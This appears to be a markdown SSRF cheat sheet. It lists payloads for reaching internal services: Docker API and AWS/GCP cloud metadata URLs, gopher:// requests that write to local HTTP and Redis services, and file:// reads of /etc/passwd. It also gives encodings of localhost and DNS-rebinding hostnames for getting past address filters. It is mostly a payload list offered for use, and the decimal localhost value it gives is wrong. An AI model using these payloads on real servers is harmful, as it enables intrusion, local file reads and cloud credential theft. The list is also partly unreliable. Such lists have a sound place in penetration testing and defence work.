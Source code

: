 #### SSRF
> [SSRF bible Cheatsheet](https://cheatsheetseries.owasp.org/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf)

- Scheme
  > [URL schema support](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#bookmark=id.osggnj3pn7l6)

  - HTTP
    - Docker API  
      `http://IP:2375/images/json`
    - Cloud Metadata (GCP)  
      `http://metadata.google.internal/computeMetadata/v1/...`
    - Cloud Metadata (AWS)  
      `http://169.254.169.254/latest/user-data/...`
  - Gopher
    > Generate arbitrary TCP packet under no interaction.
    >
    > `gopher://<authority>/<padding><tcp payload>`

    - [Gopher Payload Generator](https://github.com/tarunkant/Gopherus)
    - HTTP GET/POST  
      `gopher://127.0.0.1:80/_GET%20/%20HTTP/1.1%0D%0AHost:127.0.0.1%0D%0A%0D%0A`
    - MySQL (must without password)  
      [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
    - Redis  
      `gopher://127.0.0.1:6379/_SET%20key%20"value"%0D%0A`
    - PHP-FPM
  - Local File
    - `file:///etc/passwd`
    - `file://localhost/etc/passwd`
    - `python` `local_file:///etc/passwd`
    - `java` `file:///var/www/html/`
    - `java` `netdoc:///var/www/html/`
- Authority
  - localhost
    - 127.0.0.1
    - localhost
    - 127.0.1
    - 127.1
    - 0.0.0.0
    - 0
  - IP Address
    - 2130706443 (dec)
    - 0x7f00000001 (hex)
    - 0x7f.0x0.0x0.0x1
    - 0177000000001 (oct)
    - 0177.0.0.01
  - IPv6
    - ::1
    - ::127.0.0.1
    - ::ffff:127.0.0.1
    - ::
    - ip6-localhost
  - IDN Encoding
    - http://www.unicode.org/reports/tr46/  
    - [Domain Obfuscator](https://splitline.github.io/domain-obfuscator/)
    - http://ⓀⒶⒾⒷⓇⓄ.ⓉⓌ
  - Domain Name Binding
    - whatever.localtest.me
    - 127.0.0.1.xip.io
  - DNS Rebinding (Round-Robin DNS)
    - foo.bar.10.0.0.1.xip.io
    - A.54.87.54.87.1time.127.0.0.1.forever.rebind.network